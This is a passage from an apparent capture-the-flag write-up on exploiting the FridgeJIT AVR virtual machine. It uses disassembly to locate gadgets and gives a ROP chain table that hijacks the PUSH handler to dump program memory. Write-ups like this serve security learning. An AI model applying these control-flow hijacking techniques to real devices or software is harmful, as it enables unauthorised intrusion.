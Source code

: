 But where? How can we control `[r28, r29]`? It turns out that's another thing we can avoid to control: let's look again at the instruction decoding function already discussed above, which is at `0x00001cd4`. The core of it is an `icall` instruction, calling out to the right VM-instruction implementation, just read off the jump table:

```
│           0x00001d5c      ce01           movw r24, r28
│           0x00001d5e      0995           icall
```

Recalling the discussion about instruction implementations, the 16-bits arg0 is the `register_base`. Therefore, `[r28, r29]` at the time of the `icall` **points to the registers**!

This means we have the last piece of our attack plan:

- overwrite the PUSH implementation address with the stack-moving gadget
- fill the VM registers with our ROP chain
- issue a PUSH to trigger it

### The ROP chain

For some reason, not all the register space can host the chain. Instead we have 12 bytes between the lower half of `R4` until the end of `SP`.

To print out program memory, we can reuse the `print_cstring` function:

```
│           0x00000494      cf93           push r28
│           0x00000496      df93           push r29
│           0x00000498      fc01           movw r30, r24
│       ┌─> 0x0000049a      8491           lpm r24, z
│       |   0x0000049c      ef01           movw r28, r30
│       |   0x0000049e      2196           adiw r28, 0x01
│       |   0x000004a0      8823           tst r24
│      ┌──< 0x000004a2      21f0           breq 0x4ac
│      │|   0x000004a4      0e94df01       call print_char

; gadget for calling this function using [r28, r29]
; instead of [r24, r25] we can't control (no gadgets)
│      │|   0x000004a8      fe01           movw r30, r28
│      │└─< 0x000004aa      f7cf           rjmp 0x49a

; gadget for controlling [r28, r29] (beware of endianess)
│      └──> 0x000004ac      df91           pop r29
│           0x000004ae      cf91           pop r28
│           0x000004b0      0895           ret
```

Here is the minimal ROP chain i used:

| Address in FridgeJIT   | With offset and /2 | Meaning
|------------------------|--------------------|--------
| 0x000004ac             | 0x0268             | pop r29; pop r28
| -                      | 0xXXYY             | address of program memory to print
| 0x000004a8             | 0x0266             | print_string([r28,r29]); pop r29; pop r28
| -                      | 0x0000             | padding (will be popped into [r28, r29] by the print function
| 0x00000000             | 0x0000             | reset
